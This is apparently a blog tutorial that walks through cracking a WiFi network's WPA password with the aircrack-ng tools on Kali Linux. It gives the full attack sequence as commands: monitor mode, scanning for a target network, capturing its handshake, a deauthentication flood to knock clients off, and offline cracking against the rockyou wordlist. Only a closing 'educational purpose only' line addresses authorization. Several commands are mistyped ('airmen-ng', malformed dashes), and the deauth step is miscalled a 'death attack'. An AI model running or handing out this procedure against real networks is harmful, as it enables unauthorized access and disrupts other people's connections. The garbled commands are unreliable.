

## Requirements
- Kali Linux Machine (attacking machine)
- Network Adapter

## Let’s Start…..

The network adapter I am using for this attack demo is **Alpha’s AWUS036H**.



After connecting the network adapter, open the Kali Linux machine and write the followingcommand on the terminal.

```code
iwconfig
```

When we connect the adapter, you’ll see the wlan0 interface on your terminal screens. To change the mode to Monitor Mode, use the following command.

sudo airmen-ng start wlan0 

Again, use the command mentioned below to verify the monitor mode.

iwconfig

As you can see, the mode has been changed. Now, use the airodump-ng tool to capture wireless network traffic on the specified interface.

sudo airodump-ng wlan0

It will display information about nearby WiFi Networks. Our intended interface is Alvish Bhaii. Then, copy the BSSID.

The Following command tells us how many devices are connected tothis Network interface.

sudo airodump-ng wlan0 -d <mac-address>

Remember, WiFi Networks always occupy a limited radius of the area. So, you should be within that radius to discover the WiFi network. The next step is to capture the handshake, using the death attack.

sudo airodump-ng -w <filename> –c 1 --bssid <target-mac> wlan0

In this attack, we save the handshake in a .pcap file. The next step is the death attack: We open another terminal and type the following command.

sudo aireplay-ng -–deauth 0 -a <target-mac> wlan0

If a disconnected client tries to connect with the wifi, they generate a four-way handshake.

What is a four-way handshake?

A four-way handshake is a message exchange between an access point and the client device.


Now, you see that it captures the handshake. Type in the ls command to see the file.


In our attack method, we are going to crack the password in our test-01.cap in encrypted form. The cracking is totally offline; we don’t need an internet connection or Wi-Fi adapter for it. We’ll use their crack toolto crack the password.

aircrack-ng <filename.cap> -w /usr/share/wordlists/rockyou.txt

You see that the key is found and cracked Successfully.

Thank You for reading this article. I hope that you have found this information provided to be valuable and helpful. Use it for educational purpose only…. 🙂
